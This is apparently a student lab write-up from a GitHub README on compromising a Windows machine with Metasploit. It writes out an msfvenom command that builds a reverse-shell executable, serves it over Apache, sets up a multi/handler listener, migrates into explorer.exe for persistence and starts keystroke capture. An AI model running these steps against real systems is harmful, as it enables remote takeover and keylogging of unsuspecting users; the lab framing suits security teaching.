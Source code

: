 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![serverside](/img6/m1.png)

! Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![serverside](/img6/m2.png)

copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start Check the status of apache2

![serverside](/img6/m3.png)

Invoke msfconsole:

![serverside](/img6/m4.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![serverside](/img6/m5.png)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![serverside](/img6/m6.png)

WINDOWS : On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads

![serverside](/img6/m7.png)

![serverside](/img6/m8.png)

## COME BACK TO PARROT:

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![serverside](/img6/m9.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![serverside](/img6/m10.png)

## WINDOWS OUTPUT :

![serverside](/img6/m11.png)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :
![serverside](/img6/m12.png)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
